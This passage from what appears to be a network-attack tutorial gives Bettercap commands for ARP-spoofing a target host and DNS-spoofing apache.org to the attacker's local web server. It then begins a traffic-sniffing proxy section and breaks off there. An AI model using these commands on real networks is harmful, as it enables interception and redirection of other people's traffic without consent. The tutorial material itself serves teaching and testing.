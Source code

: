 We need first to set up properly the DNS Spoofing:

```bash
» set dns.spoof.domains apache.org
» set dns.spoof.all true
» dns.spoof on
```

The command "`set dns.spoof.all true`" allows taking into account external incoming requests. We keep the ARP spoof attack in place to target the user we are attacking.

```bash
» set arp.spoof.targets 192.168.1.104
» arp.spoof on
```

Since we are redirecting flows from "apache.org" to the attacker's ip, we are going to create a web server using Bettercap. Please remember, to switch off your Apache webserver or any application using the port 80 of your machine to avoid any port conflicts. Otherwise, you must modify the port in the server configuration of Bettercap using the command "`set http.server.port`".

```bash
» set http.server.path /var/www/html
» http.server on
```

**Output**

![image-9](https://raw.githubusercontent.com/neoslab/tutorials/master/medias/78d50914fdca2ffe86a53c11065c7b02-9.png "Image-9")

Before modifying the victim's ARP table, if the victim had visited the apache.org site, he would then have reached the official page.

![image-10](https://raw.githubusercontent.com/neoslab/tutorials/master/medias/78d50914fdca2ffe86a53c11065c7b02-10.png "Image-10")

After poisoning the ARP cache, the apache.org page redirects directly to the local server of the attacker.

![image-11](https://raw.githubusercontent.com/neoslab/tutorials/master/medias/78d50914fdca2ffe86a53c11065c7b02-11.png "Image-11")

The DNS attack is now over, I let you imagine what a malicious hacker could do with this type of attack.

* * *

###### PROXY ATTACK

A proxy attack is a fact of being able to recover the logs of all web requests. It is interesting to set up a proxy when you want to block certain websites in a company or a local network. In our case, we will use the proxy to retrieve the pages that the victim consults. To do it, we will need to configure the verbosity level of the sniffer.

```bash
» set net.sniff.verbose false
» net.sniff on
```

Then we configure the proxy:
